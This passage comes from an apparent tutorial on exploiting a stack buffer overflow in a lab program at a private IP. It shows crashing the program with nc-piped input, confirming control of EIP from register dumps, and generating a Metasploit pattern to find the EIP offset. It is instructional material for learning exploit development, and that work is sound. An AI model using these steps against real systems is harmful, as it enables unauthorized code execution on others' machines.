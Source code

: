 ![Getting closer to identifying the EIP offset](<../../../.gitbook/assets/image (796).png>)

As a final test, let's send 300 `A`'s + `END!`:

```csharp
python -c "print('A'*300 + 'END!')" | nc 192.168.99.3 10000
```

...and observe the registers after the crash:

![EIP is overwritten and ESP points to the shellcode](<../../../.gitbook/assets/image (799).png>)

Note the following:

* ESP (green) points to `0060FB20`, which contains `41414141` (AAAA);
* EIP (red) points to `41414141`;
* `0060FB3C` (blue) contains `21444E45`, which is our string `END!`.

Based on the above:

* We have successfully smashed the stack, overwritten the function's return address and confirmed that we have control over the EIP register (we don't know the EIP's offset yet, but we will try to find it next), which we can now point to any arbitrary memory address. In this case, it points to `41414141`, because we sent in a bunch of `0x41` bytes;
* We can hypothesize that ESP (`0060FB20`, green) is where we would need to write our shellcode and somehow point the EIP to, in order for the vulnerable program to execute it. Let's call this a hyphothesis 1, so we can reference and confirm it later;
* We can see that the the direction of the overflow is from the lower memory addresses to higher.

## Finding EIP Offset

Based on the information observed until now, we've determined that we should be able to overwrite the EIP when sending 200-300 bytes to the vulnerable program. Let's see how we can find the EIP offset - that is, how many bytes exactly we need to send in, before we can overwrite the EIP with a memory address of our choice.

Let's generate a string pattern of 300 characters using a metasploit utility `pattern_create`:

```csharp
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

![](<../../../.gitbook/assets/image (801).png>)

Send that pattern to the vulnerable program:

```
"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9" | nc 192.168.99.3 10000
```
